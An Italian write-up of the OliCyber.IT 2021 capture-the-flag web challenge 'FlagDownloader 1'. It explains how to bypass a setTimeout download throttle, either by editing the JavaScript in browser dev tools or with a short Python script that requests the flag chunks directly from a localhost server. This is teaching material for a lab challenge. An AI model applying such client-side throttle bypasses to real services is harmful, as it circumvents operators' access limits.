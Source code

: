 # OliCyber.IT 2021 - Competizione nazionale

## [web-02] FlagDownloader 1 (91 risoluzioni)

La challenge si presenta come un sito web per il download di file. Uno di questi file (Sicuramente non la flag) contiene la flag.

Tuttavia i file vengono scaricati a blocchi, e il piano gratuito è particolarmente lento.

### Soluzione

Il download viene rallentato da una chiamata a `setTimeout`. Vi sono diversi modi per affrontare e risolvere la challenge.

Il più semplice consiste nel modificare il sorgente JavaScript dai Dev Tools del browser. In questo modo si può fare un qualcosa come

```js
setTimeout(() => g(data["n"]), 0);
```

che imposta a 0 il delay del timeout, e il resto della flag viene scaricato immediatamente. È da tenere conto però che le modifiche avvengono mentre il codice è già in esecuzione, quindi bisogna essere rapidi a modificare il sorgente in modo da non rimanere bloccati in un timeout già avviato.

Un'alternativa è quella di scrivere un programma che effettui direttamente le richieste al server per ottenere i vari blocchi.

### Exploit

Un esempio di script in Python è il seguente:

```python
import requests

host = 'http://localhost:8080'

flag = ''
n = '0'

while n:
    r = requests.get(host+'/download/flag/'+n)
    j = r.json()
    n = j['n']
    flag += j['c']

print(flag)
```
